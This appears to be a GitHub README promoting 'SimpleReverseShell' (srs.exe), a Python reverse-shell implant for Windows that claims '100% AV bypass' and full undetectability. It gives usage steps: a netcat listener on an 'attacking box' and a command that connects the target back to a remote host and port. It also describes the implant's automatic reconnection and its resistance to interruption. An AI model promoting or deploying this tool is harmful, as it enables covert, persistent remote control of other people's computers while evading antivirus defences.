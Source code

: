 # SimpleReverseShell
py based rev cmd shell w/bare minimal dependencies x86_x64

Rumored to be Miley's favorite command shell.

![alt tag](http://i.imgur.com/sqov7iX.jpg)

100% AV bypass

![alt tag](http://i.imgur.com/GlkEB0q.png)

Usage:
Start a generic listener on your attacking box to catch the incoming connection. 
#nc -lvp 58931

![alt tag](http://i.imgur.com/j2aG99m.png)

Upload srs.exe to your Windows target (x86 or x64) and specifiy a remote host and remote port 
#srs.exe 192.168.0.5 58931

![alt tag](http://i.imgur.com/0KDbncP.png)

The listener receives the shell and you may begin executing commands. #hacktheplanet

![alt tag](http://i.imgur.com/NVQqBOb.png)

Easy as pie. The core feature of the shell is it's resilience to CTRL+C sighups.
Additionally, the implant will re-iniatiate connection every 5 seconds if the socket dies. Ncat is a fantastic tool, but I find that the best software does one thing and does that one thing well. Ergo srs. 

Public version sends traffic over clear-text, private version establishes an authenticated ssh style TLS tunnel.

Simple. Portable. Resilient. FUD.



